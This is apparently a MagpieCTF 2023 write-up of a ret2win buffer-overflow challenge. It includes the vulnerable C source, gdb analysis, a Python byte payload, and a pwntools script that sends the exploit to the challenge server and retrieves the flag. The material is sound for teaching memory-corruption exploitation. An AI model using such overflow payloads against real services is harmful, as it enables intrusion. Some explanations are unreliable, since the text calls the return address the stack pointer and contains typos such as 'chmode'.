 # This outta be large enough right?

## Description

> Come in, B-Team,
>
> We've identified an OmniFlags service that seems to be running on a satelite somewhere. We were able to get a copy of the program, and we suspect that it may be exploitable for identifying a flag. See if you can find it.
>
> Over & out,\
> HQ\
>
>
> `nc srv1.2023.magpiectf.ca 6201`

## Too Small

We are given a `chall.c` source code file

```c
#include <stdio.h>
#include <stdlib.h>
__asm__(".symver realpath,realpath@GLIBC_2.0.5");
void win(){
    printf("Here is your flag:\n");
    exit(0);
}
void vuln(){
  char buf[56];
  gets(buf);
}
int main(){
  vuln();
  return 0;
}
```

Here we can see the program makes a call to `vuln()`, which creates a character buffer and takes in input to fill the buffer, then returns 0. It's clear that we want to call `win()` in order to get our flag, so how shall we do that?

The code implies a buffer overflow attack

{% hint style="info" %}
**Buffer Overflow** - Occurs when the volume of data exceeds the storage capacity of the memory buffer, which overruns the buffer's allocated memory and overwrites adjacent memory locations
{% endhint %}

In the code `chall.c` we can see a buffer of static size 56 allocated, called `buf`. User input is then placed inside this buffer with `gets(buf)`. However, what if the user input exceeds the size `buf` was allocated for? Then those values will be stored in the next slots of memory, after the locations that were allocated by `buf`, which may overwrite important information.

One of these important pieces of information is the stack pointer, which points to the next instruction that the program should execute.&#x20;

Thus, our goal is

1. Overwrite the memory location the stack pointer is currently pointing to
2. Change it so it points at `win`
3. Profit.

First let's make the local executable `chall` executable by setting permissions

```
chmode +x chall
```

Then let's run it with gdb using `gdb chall`

First let's look into the functions of the file

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We can see that the `win` function is located at 0x08048486. Let's put a pin in that for now, and run the program with `run`

Now, for the user input we want to overflow `buf`. It doesn't matter what dummy values we use, so let's send in "A"'s until we get a segmentation fault. Since we know the buffer has size 56, let's try 100 "A"s first, which we can send in using inline Python code

```
run <<< $(python3 -c 'print("A"*100)')
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a segmentation fault, as expected. However, what's notable is the `0x41414141 in ?? ()` response. This is telling us where the program is currently, when it received the segmentation fault, so the `0x41414141` is the stack pointer and `?? ()` is the function the program faulted at.

If you have a good memory, you may recall none of the functions were even close to this location, and the function we ended at is unknown by the program.

If you have a keen eye, you may notice that 0x41 is "A" in hexadecimal.

Putting these together, we can note that not only did we cause a segmentation fault, we also managed to overwrite the stack pointer with "AAAA"

Unfortunately, we want to overwrite the stack pointer with "08048486", the location of `win`, so let's try finding the precise number of "A"s to send such that we cause a segmentation fault, however we do not overwrite the stack pointer.

To spare the painful details, this amounts to 68 "A"s

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>So close to greatness</p></figcaption></figure>

If you wanted to, doing 69 or more "A"s will cause 41 to seep into the stack pointer from the right. The reason why it comes in from the right is because it is in little endian

{% hint style="info" %}
**Little Endian** - The least sygnificant byte of the data is placed at the byte with the lowest address
{% endhint %}

So instead of 08 03 84 86 we get 86 84 04 08

We are now ready to overwrite the stack pointer with our desired location. Note that the payload needs to be in bytes, so it looks something like this

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")'
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>We win!</p></figcaption></figure>

"Here is your flag:" is printed out, implying we successfully called `win`

## Let Me In

I tried to directly pipe in my Python payload into the netcat command

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")' | nc srv1.2023.magpiectf.ca 6201
```

Unfortunately, it didn't work as the program would just hang. I similarly tried to send the Python to a file `out` and pipe in `cat out | nc srv1.2023.magpiectf.ca 6201` which did not work either.

I had the correct payload, but I just couldn't send the payload in!

After a bout of frustration, I settled down and coded up a Python script to communicate with the server

```python
from pwn import *

address = 'srv1.2023.magpiectf.ca'
port = 6201
tcpsocket = remote(address, port)

payload = "A"*68 + "\x86\x84\x04\x08"

tcpsocket.sendline(payload.encode('latin-1'))
print('Sent: 0x' + binascii.hexlify(payload.encode('latin-1')).decode('latin-1'))

print((tcpsocket.recvline()).decode('latin-1')) # Receive line after string is entered
print((tcpsocket.recv()).decode('latin-1')) # Receive the flag
```

## Flag

`magpie{0mn1_fl4g_3v3rywh3r3}`
